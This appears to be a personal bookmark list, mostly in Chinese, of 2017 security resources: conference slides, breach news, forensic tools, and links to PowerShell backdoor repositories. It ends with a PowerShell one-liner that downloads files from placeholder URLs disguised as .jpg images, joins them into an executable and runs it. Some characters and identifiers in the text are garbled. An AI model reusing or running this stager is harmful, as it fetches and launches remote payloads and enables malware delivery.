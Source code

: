 密碼檔
https://thehackernews.com/2017/12/data-breach-password-list.html?m=1
https://medium.com/4iqdelvedeep/1-4-billion-clear-text-credentials-discovered-in-a-single-database-3131d0a1ae14

機器人攻擊
https://robotattack.org/#patches


defcon簡報
https://media.defcon.org/
https://media.defcon.org/DEF%20CON%2025/DEF%20CON%2025%20presentations/Cheng%20Lei/

Google Driver
https://drive.google.com/drive/folders/0B9qqqzOjzwW9YTZjNi1yamJRTkE


hitcon pacific .其中一場的簡報
https://www.facebook.com/OSSGeekLab/posts/1547755515261730

微軟挖礦
http://168.61.16.230/

“Skip Cracking Responder Hashes and Replay Them” by Dank Panda (Richard De La Cruz of Tevora).
https://gameofpwnz.com/?p=684

資安新聞及事件週報 2017/12/18 ~ 2017/12/22 
http://tdoh.logdown.com/posts/2017/12/22/news-and-events-weekly-2017-12-18-2017-12-22

swift
https://drive.google.com/drive/folders/0B9qqqzOjzwW9OFFVc0FxOE5CNDA

OSDFCon 2017 快速?急??演示文?
http://www.osdfcon.org/presentations/2017/Asif-Matadar_Rapid-Incident-Response.pdf

EVENT LOG
https://github.com/MicrosoftDocs/windows-itpro-docs/tree/master/windows/device-security/auditing

Plug-In Contest 2017: Hall Of Fame 
https://www.hex-rays.com/contests/2017/index.shtml

Breach Prevention Systems (BPS) Group Test
https://www.peerlyst.com/posts/nss-labs-breach-prevention-systems-bps-group-test-guurhart?trk=wall_page_activity_feed

好用軟體
https://www.magnetforensics.com/magnet-atlas/

IBM AIX Server 快速筆記1 更新與連線
https://www.osslab.com.tw/aixquicknote1/

Invoke-PSImage
https://github.com/peewpw/Invoke-PSImage
https://github.com/samratashok/nishang/tree/master/Backdoors
$webvar=new-object System.Net.WebClient;$address="http://xxxx,http://xxxxx,http://xxxxx".Split(",");$a=@();foreach($url in $address){try{$randomint=Get-Rando -Minimum 2 -Maximum 36677;$filename=$env:public+"\"+$randomint+".jpg";$webvar.DownloadFile($url.ToString(),$filename);$a+=$filename;}catch{write-host $_.Execption.Message;}}$p=$env:public+"\"+"p.exe";$args=$a -join '+';$i="cmd.exe /c copy /b "+$args+" "+$p;iex($i);
